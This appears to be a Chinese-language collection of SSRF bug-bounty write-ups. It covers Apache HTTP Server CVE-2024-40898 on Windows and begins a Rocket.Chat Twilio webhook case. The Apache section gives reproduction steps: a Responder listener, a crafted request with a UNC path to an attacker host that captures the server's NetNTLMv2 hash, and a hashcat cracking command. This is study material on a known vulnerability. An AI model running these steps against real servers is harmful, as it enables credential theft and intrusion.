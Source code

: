 [Internet Bug Bounty | Report #2612028 - important: Apache HTTP Server: SSRF with mod_rewrite in server/vhost context on Windows (CVE-2024-40898) | HackerOne](https://hackerone.com/reports/2612028)

#### 一、CVE介绍

**漏洞编号**：CVE-2024-40898

**影响组件**：Apache HTTP Server（Windows 平台）[tenablecloud.cn+7hkcert.org+7腾讯云 - 产业智变 云启未来+7](https://www.hkcert.org/tc/security-bulletin/apache-http-server-multiple-vulnerabilities_20240719?utm_source=chatgpt.com)

**影响版本**：2.4.0 至 2.4.61[httpd.apache.org+2GitHub+2hkcert.org+2](https://github.com/TAM-K592/CVE-2024-40725-CVE-2024-40898?utm_source=chatgpt.com)

**漏洞类型**：服务器端请求伪造（SSRF）[hkcert.org+4阿里云漏洞库+4腾讯云 - 产业智变 云启未来+4](https://avd.aliyun.com/detail?id=AVD-2024-40898&utm_source=chatgpt.com)

**CVSS v3 分数**：7.5（高危）

**修复版本**：2.4.62[腾讯云 - 产业智变 云启未来+6tenablecloud.cn+6NVD+6](https://www.tenablecloud.cn/plugins/was/114385?utm_source=chatgpt.com)

#### 二、复现

1. **搭建恶意 SMB 服务器**：
   使用 `Responder` 或 `Impacket` 监听 SMB 流量：

   ```
   responder -I eth0 -wrf
   ```

2. **触发 SSRF**：
   发送构造的请求至漏洞 URL：

   ```
   GET /redirect?path=\\attacker-ip\share HTTP/1.1
   Host: victim.com
   ```

3. **捕获哈希**：
   `Responder` 将捕获服务器的 NetNTLMv2 哈希，保存为 `hash.txt`。

#### 2. 破解哈希

使用 `Hashcat` 进行离线破解：

```
hashcat -m 5600 hash.txt /path/to/wordlist.txt
```

### 7. POST | SSRF

[Rocket.Chat | Report #1886954 - Unauthenticated full-read SSRF via Twilio integration | HackerOne](https://hackerone.com/reports/1886954)

####  Twilio Webhook 功能背景:

- **Twilio 集成**：
  Rocket.Chat 支持通过 Twilio 接收短信或语音通话通知。当 Twilio 接收到外部事件（如用户回复短信）时，会通过 **Webhook 回调** 将数据发送到 Rocket.Chat 的指定端点（如 `/services/voip/events`）。
- **参数处理**：
  Webhook 端点可能解析 Twilio 请求中的参数（如 `Caller`、`From`、`RecordingUrl`），并基于这些参数发起后续操作（如下载录音文件）。
